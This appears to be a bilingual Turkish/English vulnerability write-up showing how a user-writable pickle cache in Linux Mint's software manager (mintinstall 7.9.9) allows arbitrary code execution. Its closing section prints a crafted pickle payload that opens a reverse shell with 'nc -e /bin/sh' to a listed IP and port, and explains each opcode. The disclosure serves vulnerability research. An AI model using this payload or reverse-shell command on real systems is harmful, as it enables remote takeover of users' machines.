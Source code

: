 [TR] Linux mint yazılım yöneticisi (v 7.9.9) yanlış yapılandırmadan dolayı obje enjeksiyonu ve keyfi kod çalıştırmamıza neden olmaktadır.

[EN] Linux mint software manager (v 7.9.9) causes us to execute object injection and arbitrary code due to incorrect configuration


	mintinsall

[TR] Mint yazılım yöneticisini çalıştırdıgımız da yeni yorum olup olmadıgını kontrol ediyor eger yeni yorum varsa  [new-reviews.list](https://community.linuxmint.com/data/) adresinden indirip dosyaya yazıyor.

[EN] If there is a new comment [new-reviews.list](https://community.linuxmint.com/data/) download from and write to file.

![](imgs/20190926-164424.png)

	code mintinstall.py
	
[TR] Yazılım yöneticisini ilk başladıgında , reviews modülünden ReviewCache() sınıfını çağırıyor.

[EN] When the software manager first starts, it calls the ReviewCache() class from the reviews module.
 
 ![](imgs/20190926-170607.png)
 
# Verileri Nasıl İşliyor?
# How Does It Process Data?

	code reviews.py
	
[TR] ReviewCache sınıfı başladıgında(__init__)  _load_cache() fonksiyonunu çagırıyor.

[EN] When the ReviewCache class starts (__init__) it calls _load_cache()

![](imgs/20190926-171334.png)

[TR] Load cache fonksiyonu REVIEWS_CACHE degişkeninde olan dosyayı okuyup pickle modülü yardımıyla dosyanın içinde ki datayı unserialize ediyor ve bazı değerleri hafıza da tutuyor.

[EN] The Load cache function reads the file in the REVIEWS_CACHE variable and unserializes the data in the file with the help of the pickle module and holds some values in memory.


![](imgs/20190926-171938.png)
![](imgs/20190926-165833.png)
![](imgs/20190926-165855.png)

[TR] Dosyayı kontrol ettigimde yazma iznim oldugu görünüyor.

[EN] When I check the file, it looks like I'm allowed to write.

 ![](imgs/20190926-170651.png)

[TR] [Pickle](https://docs.python.org/3.6/library/pickle.html) modülü yardımıyla serialize/unserialize işlemleri gerçekleştirebildigimizden, reduce metodu kullanarak modül dahil edip keyfi kod yürütebiliriz.

[EN] [Pickle](https://docs.python.org/3.6/library/pickle.html) since we can perform serialize/unserialize operations with the module, we can include the module and execute arbitrary code using the reduce method.

![](imgs/20190927-113447.png)

[TR] Bu durumda eğer dosya unserialize edilmeye çalışılırsa zararlı kodumuz çalışacaktır.

[EN] If you attempt to unserialize the file, our malicious code will work.

	cos 
	system 
	(S'nc -e /bin/sh 192.168.2.138 4545' 
	tR.
	>>modül adı c{os}
	>> fonksiyon
	( >> işaretleyici nesnesi 
	S >> tırnak sonuna kadar okuyup stack'e at
	tR. >> stackte olanları çagır ve sonucu stacke yerleştir.
	
![](imgs/20190927-131940.png)



![alt-text](imgs/exploit.gif)
